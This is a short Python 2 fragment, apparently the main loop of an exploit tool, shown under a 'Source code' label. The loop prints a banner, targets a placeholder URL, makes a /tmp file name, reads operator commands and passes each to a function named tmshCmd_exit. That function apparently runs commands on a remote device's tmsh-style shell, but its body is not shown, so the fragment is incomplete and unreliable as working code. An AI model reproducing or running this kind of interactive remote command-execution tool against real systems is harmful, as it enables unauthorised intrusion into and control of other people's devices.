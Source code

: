




    if __name__ == '__main__':
        print banner
        while 1:
            url = "https://x.x.x.x/"
            # url = sys.argv[1]
            file = str(uuid.uuid1())
            print "/tmp/" + file,"\n"
            cmd = raw_input("[+]Set Cmd= ")
            print
            tmshCmd_exit(url,file,cmd)
